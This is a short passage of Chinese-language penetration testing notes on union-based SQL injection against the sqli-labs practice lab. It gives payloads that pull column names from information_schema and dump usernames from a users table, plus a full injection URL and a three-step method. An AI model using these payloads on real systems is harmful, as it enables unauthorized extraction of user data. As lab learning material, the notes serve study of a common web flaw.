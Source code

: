 语句如下：

```sql
group_concat(column_name) from information_schema.columns where table_name='users' --+
```



## 查询出表的某列（column）的所有数据



语句如下：

```sql
group_concat(username) from users --+
```

pic

![image-20241212223055622](./Web%E6%B8%97%E9%80%8F.assets/image-20241212223055622.png)





```sql
http://wangehacker.cn/sqli-labs/Less-2/?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+

```



那么最简单的这种sql注入

就是：确认是字符型还是数字型

确认column数目

确认回显点
